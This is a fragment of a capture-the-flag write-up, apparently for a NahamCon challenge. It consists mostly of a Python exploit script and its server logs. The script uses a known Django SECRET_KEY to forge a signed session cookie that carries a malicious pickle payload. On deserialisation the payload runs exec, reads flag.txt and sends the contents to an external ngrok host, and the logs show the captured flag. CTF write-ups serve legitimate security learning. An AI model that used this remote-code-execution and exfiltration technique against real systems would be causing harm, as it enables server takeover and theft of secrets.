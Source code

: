 ```python
from django.conf import settings as _settings
from django.core.signing import loads, dumps
from django.contrib.sessions.serializers import PickleSerializer
from urllib.request import urlopen
import os
from sys import argv
import requests

class Rce():
    def __reduce__(self):
        import requests
        return (exec,("import requests;s = 'n=1&s=' + open('flag.txt').read();requests.get(f'https://669d-49-34-53-197.in.ngrok.io/hello?{s}');import time;time.sleep(13)",))
        # return exec(f'import time;time.sleep(99)')

SECRET_KEY = '77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!'
salt = 'django.contrib.sessions.backends.signed_cookies'
c_url = 'http://challenge.nahamcon.com:31050/'
cookie = '.eJxNjE0KwjAUhHXhUgRPoZuQ5DWa7MS9Zwj5ebFVaaBpl4IHyDKewytaUaGzGZjvYx6L52v2zb1s8lKboa_1kLDTjS95DiWvJ5s17ortCLb-YtpzJC62fddY8lHIjyZyih5vx7-7mhzUJtUlHwRF9JRKxZgNyqFHIYKUY1dMAefAg6IIaLiVogK2d0h3gJXlAQ04VgbyBgKeP5Q:1nlwXO:fHckutyzxCaT3Hb8w56AHnlhu2_4UmbA7rvjo4tKU7s'
_settings.configure()
content = loads(cookie, key=SECRET_KEY, serializer=PickleSerializer, salt=salt)
print(content)
content['testcookie'] = Rce()
cookie = dumps(content, key=SECRET_KEY, serializer=PickleSerializer, salt=salt, compress=True)
c_cookie = {'csrftoken': 'LUQMdTVnStctjS2xxyX8wGl9CfUHyPiROjEjjlsVFgd0a3MhpJg9XCEAIxTJupw4', 'sessionid': cookie}
print(c_cookie)
r = requests.get(c_url, cookies=c_cookie)
print(r.headers)
```

we can see our flag in python server we created :

```shell
127.0.0.1 - - [06/May/2022 09:24:27] "GET /hello?n=1&s=flag%7Ba6b902e045b669148b5e92f771a68d39%7D HTTP/1.1" 200 -
127.0.0.1 - - [06/May/2022 09:24:42] "GET /hello?n=1&s=flag%7Ba6b902e045b669148b5e92f771a68d39%7D HTTP/1.1" 200 -
```

```
flag{a6b902e045b669148b5e92f771a68d39}
```

Happy Hacking
